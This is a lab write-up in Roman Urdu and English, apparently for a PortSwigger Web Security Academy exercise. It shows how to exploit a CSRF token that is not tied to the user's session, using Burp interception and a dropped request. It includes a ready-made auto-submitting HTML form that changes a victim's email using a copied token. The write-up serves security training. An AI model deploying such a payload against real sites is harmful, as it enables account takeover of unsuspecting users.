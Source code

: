 # 🔐 CSRF Lab: Token Not Tied to User Session

## 🧠 Lab Concept Overview

Is lab mein website CSRF token to use karti hai, lekin problem yeh hai ke **yeh token user ke session se linked nahi hota**. Matlab koi bhi token kisi bhi user pe apply ho jata hai — yeh major logic flaw hai.

---

## 📌 Real World Analogy:

Soch ke dekho ke har banda apna ID card kisi bhi doosre ke naam pe use kar sakta hai — aur system sirf card dekh ke kaam kar de, verify na kare ke banda wahi hai ke nahi.

---

## 🛠️ Step-by-Step Lab Solve

### ✅ Step 1: Login as `wiener:peter`

* Burp browser mein lab URL open karo
* Login karo: `wiener : peter`
* Go to "My Account"

---

### ✅ Step 2: Intercept Email Change Request

* Email change form bhar ke submit karo (e.g. `test123@a1.com`)
* Burp Proxy mein request intercept karo:

  ```
  POST /my-account/change-email
  email=test123@a1.com
  csrf=E4s1CPthNVpvcGv4lNKLODIX5BrVNbPQ
  ```
* **CSRF token copy karo** (e.g. `E4s1CPthNVpvcGv4lNKLODIX5BrVNbPQ`)
* Request ko **DROP kar do** (taake token use na ho)

---

### ✅ Step 3: Exploit HTML Prepare Karo

* Exploit server pe jao
* Body section mein yeh code paste karo:

```html
<form method="POST" action="https://0a4c003f04775ba980646ceb00580037.web-security-academy.net/my-account/change-email">
  <input type="hidden" name="email" value="asdas2@assa.com">
  <input type="hidden" name="csrf" value="E4s1CPthNVpvcGv4lNKLODIX5BrVNbPQ">
</form>
<script>
  document.forms[0].submit();
</script>
```

* ✅ Lab URL ka apna action link daalo
* ✅ Email koi **unique aur valid** likho
* ✅ CSRF token wahi wiener wali copy ki hui value rakho

---

### ✅ Step 4: Store & Deliver

* Click **Store** on exploit server
* Click **Deliver to Victim**
* ✅ **Lab Solved!**

```
Lab Solved krny ky liye jo zaroori cheez hai woh yeh hai ky csrf token use nhi hone chahie 
agr woh aik baar use hoo jaye phir woh dobara use nhi hota isi liye request ko drop kiya jaata hai takay woh use na hoo.
```
---

## 🔍 Kya Seekha?

* Agar CSRF token user session se link nahi hota to koi bhi valid token kisi aur user pe apply ho sakta hai
* Ye logic flaw hota hai aur real-world mein bhi milta hai
* Penetration testing mein aise flaws test karne hote hain

---

## 🧠 Zuban Mein Summary:

> "Server token check to karta hai lekin ye dekhne ka system hi nahi banaya ke yeh token isi user ka hai. Isi liye hum wiener se token le ke carlos ke session mein use kar lete hain. Yeh dangerous logic flaw hai."

